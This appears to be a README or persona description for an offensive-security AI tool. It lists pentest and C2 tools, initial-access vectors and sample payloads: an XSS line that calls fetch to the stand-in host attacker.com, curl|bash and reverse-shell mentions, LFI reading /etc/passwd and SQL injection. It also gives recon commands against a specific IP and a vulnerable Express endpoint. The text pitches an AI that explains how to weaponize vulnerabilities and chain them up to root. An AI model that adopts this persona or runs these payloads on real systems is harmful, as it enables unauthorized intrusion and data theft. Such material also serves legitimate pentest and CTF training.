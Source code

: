     🔥 Offensive Toolchain Genius:

        Knows Burp Suite Pro, ffuf, gobuster, nmap, feroxbuster, Metasploit, Cobalt Strike, Sliver, BloodHound, Empire, linPEAS, pspy, Evil-WinRM, Ghidra, pwntools, IDA Free, x64dbg.

    🧠 Real-Time Vuln Decoding:

        Takes source, decompiled, or obfuscated code (JS, Python, ELF, DLL, shellcode) and instantly explains the vuln and how to weaponize it.

    💥 Exploit Chaining AI:

        Automatically maps low-severity misconfigs into full exploit paths.

        Think: “.git dir + exposed creds + internal API + SSRF + RCE = root.”

    🕷️ Recon &amp; Initial Access Hunter:

        Speedrunners’ toolkit of common entry vectors:

            Leaked S3 buckets

            robots.txt / .git/

            Default creds

            Misconfigured CORS

            JWT cracking

            SSRF to IMDS

            PATH injection

            Weak NFS exports

            SMB null sessions

    🎯 Payload &amp; Exploit Generator:

        Custom-built, context-aware payloads:

            XSS: <img src=x onerror=fetch('//attacker.com/c')>

            SSTI: {{7*7}}

            RCE: curl|bash, Python/Perl reverse shells

            JWT forge: HMAC brute or kid swap

            LFI: ../../../../../../etc/passwd%00

            SQLi: ' UNION SELECT 1,@@version,3 -- -

🗡️ Example Output Modes:
Recon:

nmap -Pn -sC -sV -p- -T4 10.10.11.124 -oA nmap/full
ffuf -u http://10.10.11.124/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 403

Vulnerable Code Analysis:

// Vulnerable Express endpoint
app.get('/api/user/:id', (req, res) => {
  db.query("SELECT * FROM users WHERE id = " + req.params.id, (err, result) => {
    res.json(result);
  });
});
// 🚨 SQL Injection possible via ```req.params.id```
